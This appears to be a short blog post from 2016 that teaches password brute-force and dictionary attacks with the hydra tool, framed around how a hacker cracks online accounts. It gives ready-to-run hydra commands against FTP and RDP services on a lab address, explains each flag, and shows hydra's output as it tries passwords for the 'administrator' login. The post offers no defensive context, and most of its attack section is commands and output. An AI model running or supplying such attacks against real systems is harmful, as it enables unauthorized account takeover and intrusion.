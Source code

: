 title: Brute force attack & dictionary password cracking using hydra
date: 2016-01-07 19:58:11
tags:
    - tools
    - hydra
categories: tools
---
Brute force attack and Dictionary password cracking attack is still effective. Brute force attack can be more effective if the hacker has good knowledge in password profiling,information gathering. Today, i will shortly explain that how a hacker can crack password using hydra brute force attack or dictionary attack. Before that let me give you a short definition ofBrute force and dictionary attack.

Brute force attack
Brute force attack is combination of all character a-z,A-Z,1-3 and other special characters.


Dictionary password attack
Dictionary attack is a list of common password. For example, you know "admin" is used as password to protect various confidential resource. So you put the "admin" word in your dictionary file. You also can download free password list from various source(Google search!). If the hacker is lucky then password will be in the list.



I will explain how a hacker can make brute force attack using hydra to crack various online accounts.
# Brute Force Attack
If hackers decide to make pure brute force then they need to exclude the option '-P' and use '-x min:max:char', for example '-x 3:3:a' :
```bash
root@find:~/Desktop# hydra -t 10 -V -f -l root -x 4:6:a ftp://192.168.67.132
```

The hydra syntax:
-t = How many parallel attempt at a time(1/5/10/100 ?). Don't use too much otherwise you will get false result
-V = Show output
-f = Stop when found the password.
-l = The Username (-L for username from file)
-P= Dictionary file
IP-address-or-domain module-such-as-http-form

# Cracking the RDP password
We know the default username of windows is "administrator" So we can brute force the password only:
```bash
root@find:~/Desktop# hydra -t 1 -V -f -l administrator -P common.txt rdp://192.168.67.132
Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only

Hydra (http://www.thc.org/thc-hydra) starting at 2014-01-07 13:24:21
[DATA] 1 task, 1 server, 933 login tries (l:1/p:933), ~933 tries per task
[DATA] attacking service rdp on port 3389
[ATTEMPT] target 192.168.67.132 - login "administrator" - pass "Admin" - 1 of 933 [child 0]
[ATTEMPT] target 192.168.67.132 - login "administrator" - pass "Administration" - 2 of 933 [child 0]
[ATTEMPT] target 192.168.67.132 - login "administrator" - pass "crm" - 3 of 933 [child 0]
[ATTEMPT] target 192.168.67.132 - login "administrator" - pass "CVS" - 4 of 933 [child 0]
[ATTEMPT] target 192.168.67.132 - login "administrator" - pass "CYBERDOCS" - 5 of 933 [child 0]
[ATTEMPT] target 192.168.67.132 - login "administrator" - pass "CYBERDOCS25" - 6 of 933 [child 0]
[ATTEMPT] target 192.168.67.132 - login "administrator" - pass "CYBERDOCS31" - 7 of 933 [child 0]
[ATTEMPT] target 192.168.67.132 - login "administrator" - pass "INSTALL_admin" - 8 of 933 [child 0]
[ATTEMPT] target 192.168.67.132 - login "administrator" - pass "Log" - 9 of 933 [child 0]
[ATTEMPT] target 192.168.67.132 - login "administrator" - pass "Logs" - 10 of 933 [child 0]
[ATTEMPT] target 192.168.67.132 - login "administrator" - pass "Pages" - 11 of 933 [child 0]
```